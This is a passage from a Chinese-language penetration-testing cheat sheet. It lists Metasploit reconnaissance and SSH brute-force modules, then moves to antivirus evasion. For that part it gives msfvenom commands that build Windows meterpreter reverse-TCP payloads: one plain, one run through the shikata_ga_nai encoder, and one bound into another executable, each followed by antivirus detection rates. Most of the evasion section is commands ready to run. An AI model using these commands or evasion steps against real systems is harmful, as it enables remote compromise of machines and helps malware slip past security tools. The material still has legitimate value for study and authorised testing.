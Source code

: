 
- `/server/`

#### 其他

---

- `whois ip` 查询 ip 相关信息
-  `use auxiliary/gather/search_email_conllector`  查找邮箱
- `use auxiliary/gather/enum_dns`  DNS 枚举
- `use auxiliary/scanner/ssh/ssh_login`  SSH 爆破

也可以通过分类查询指定模块

`search type:auxiliary name:smb`

## msf 免杀

1. 杀软是如何检测恶意代码的？

   > 特征码和启发式恶意行为。

2. 免杀是什么？

   > 对特征码进行混淆，打乱代码，避免杀软查杀

3. 免杀的基本方式有哪些？

   > 自编码处理、自捆绑+编码、多重编码、接口下载、签名伪装



### 在线查毒

`https://www.virscan.org`



### 免杀处理

##### 一、不额外处理直接生成样本

`msfvenom -p windows/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxx -f exe -o payload.exe`

查杀结果： 41% 的杀软报毒



##### 二、MSF 自编码处理生成样本（-e）

`msfvenom --list encoders` 查看可用的编码模块

`msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai lhost=xxx.xxx.xxx.xxx lport=xxx -f exe -o payload.exe`

查杀结果： 37% 的杀软报毒

##### 三、MSF 自捆绑处理生成样本（-x）

`msfvenom -p windows/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxx -x AAA.exe -f exe -o payload.exe`
